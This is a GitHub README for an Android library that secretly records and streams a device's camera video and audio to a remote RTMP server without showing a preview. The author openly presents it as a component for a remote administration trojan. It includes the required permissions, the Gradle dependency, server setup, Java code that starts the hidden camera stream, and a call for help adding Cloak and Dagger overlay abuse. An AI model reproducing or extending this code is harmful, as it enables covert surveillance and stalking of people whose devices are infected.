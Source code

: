 
# Live Hidden Camera

Live Hidden Camera (LHC) is a library which record live video and audio from Android device without displaying a preview.
![Live Hidden Camera](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Live%20Hidden%20Camera.gif)

## Motivation
I'm working on a research based Android Malware and decided to create a multi function RAT (Remote Administration Tool). I was working on Live Streams which I've found some RTMP based open sources projects including:

 - https://github.com/begeekmyfriend/yasea
 - https://github.com/ant-media/LiveVideoBroadcaster
 - https://github.com/TakuSemba/RtmpPublisher
 - https://github.com/fyhertz/libstreaming
which, all have some kind of problems based on the requirements of a RAT. But the common one was that they all need an activity to include a `SurfaceView`.

Therefore, I've started searching. Finally, I could create **Live Hidden Camera** which only needs a **CONTEXT** for stream live video, by combining these two projects:

 1. https://github.com/begeekmyfriend/yasea
 2. https://github.com/kevalpatel2106/android-hidden-camera

# How to use
I've created a library to make it more usable. The only requirement is to add the library to your project and pass the Rtmp URL to it.

Additionally you should care about:

 1. Your application should have the following permissions in `Manifest.xml`:
 ```
<uses-permission android:name="android.permission.INTERNET" />  
<uses-permission android:name="android.permission.CAMERA" />  
<uses-permission android:name="android.permission.RECORD_AUDIO" />  
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />
```

 2. You should handle that the declared permissions are granted to your application

<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions1.png" width="250">
<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions2.png" width="250">

## Adding library
The usage of the library is straight. Just add the following library to the `gradle.build` file of your project.

`compile 'ir.mstajbakhsh.android:LiveHiddenCamera:1.1.3'`

- Update: In the previouls release, Main Activity with Launcher filter was in library, which made the application (that uses the library), had two icons. **In this release, the filter is commented in `Manifest`**.

- Update: x86_64 is added to the library.

## Creating RTMP server
Before using the library, you should have deployed an Rtmp server. I've ued [Ant Media Server](https://github.com/ant-media/Ant-Media-Server). There is a nice guide on Ant Media Server installation in [THIS LINK](https://github.com/ant-media/Ant-Media-Server/wiki/Getting-Started).

After starting the Ant Media Rtmp server, you should see something like this:
![Ant Media Server](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/AntMediaServer.png)

## Sample Code
After adding the library to your project, do the following steps:

 1. Create a class which implements: `RtmpHandler.RtmpListener, SrsRecordHandler.SrsRecordListener, SrsEncodeHandler.SrsEncodeListener`
 2. Create two fields (one for publish and one for preview): 

    private SrsPublisher mPublisher;  
    private SrsCameraView mCameraView;

 3. Implement a function for starting the Live Hidden Camera:
 
```Java
    private void initHiddenCam(String rtmpURL) {  
    HiddenCameraLayout l = new HiddenCameraLayout(getApplicationContext(), new HiddenCameraLayout.PermissionHandler() {  
        @Override  
  public void onPermissionNotGrantedException(Exception ex) {  
            Log.d("HCL", "Ask user to grant permission.");  
            Log.e("HCL", ex.getMessage());  
        }  
    });  
  
    //start config  
  CameraConfig cameraConfig = new CameraConfig()  
            .getBuilder(MainActivity.this.getApplicationContext())  
            .setCameraFacing(CameraFacing.REAR_FACING_CAMERA)  
            .build();  
  
  
    mCameraView = l.initHiddenLayout(cameraConfig);  
  
    mPublisher = new SrsPublisher(mCameraView);  
    mPublisher.setEncodeHandler(new SrsEncodeHandler(this));  
    mPublisher.setRtmpHandler(new RtmpHandler(this));  
    mPublisher.setRecordHandler(new SrsRecordHandler(this));  
    mPublisher.setPreviewResolution(640, 360);  
    mPublisher.setOutputResolution(640, 360);  
    mPublisher.setVideoHDMode();  
    mPublisher.startPublish(rtmpURL);  
    mPublisher.startCamera();  
}
```

# Problems
## Green Screen
The main problem I currently facing, is the green screen. I've described the error in StackOverflow in https://stackoverflow.com/questions/56380851/getting-green-image-while-preview-hidden-live-video

If you have any suggestion about this problem, or any other idea, do not hesitate contacting me.

## Constant View
Because of the overlay of the Live Hidden Camera, no other apps can be clicked. The clicks are only accepted by the LHC. Check **TODO** section.

# TODO
There is a project called *Cloak and Dagger* which unraveled a very dangerous ability in Android. Any contribution in using the *Cloack and Dagger* in LHC is welcomed.

Check the *Cloak and Dagger* here:

 1. http://cloak-and-dagger.org
 2. https://medium.com/@targetpractice/cloak-and-dagger-malware-techniques-demystified-c4d8a035b94e

# Donate
You may donate this project using my BitCoin address at:

```
BitCoin:

1F5uiEmdCLJX5KktWHE1wkc63feKJYMmxS
```
# Contact
You can reach me from my website: https://mstajbakhsh.ir/
